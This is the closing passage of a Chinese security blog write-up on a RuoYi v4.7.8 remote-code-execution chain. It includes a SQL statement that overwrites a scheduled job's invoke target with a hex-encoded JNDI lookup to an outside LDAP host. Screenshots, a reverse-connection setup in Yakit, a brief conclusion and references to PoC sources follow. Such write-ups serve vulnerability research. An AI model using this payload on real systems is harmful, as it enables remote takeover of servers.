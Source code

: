 ```shell
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7863726c67696e75666a2e64677268332e636e2729 WHERE job_id = 1;')
```

可以成功创建

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/34.webp)


运行后任务1的调用目标字符串也被成功修改

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/35.webp)

紧接着运行任务1

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/36.webp)

接下来弹个计算机

yakit开个反连，配置一下

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/37.webp)

执行上边的步骤修改任务1，在运行任务1

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/38.webp)

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/39.webp)


## 总结

碰上前言中说到的事确实感到挺无奈却又无可奈何。也有可能是我能力不够分析有误，如果有问题希望各位师傅及时指正！

## 参考

https://xz.aliyun.com/t/10687

https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90

https://www.cnblogs.com/pursue-security/p/17658404.html#_label1_3

https://xz.aliyun.com/t/10957

https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC

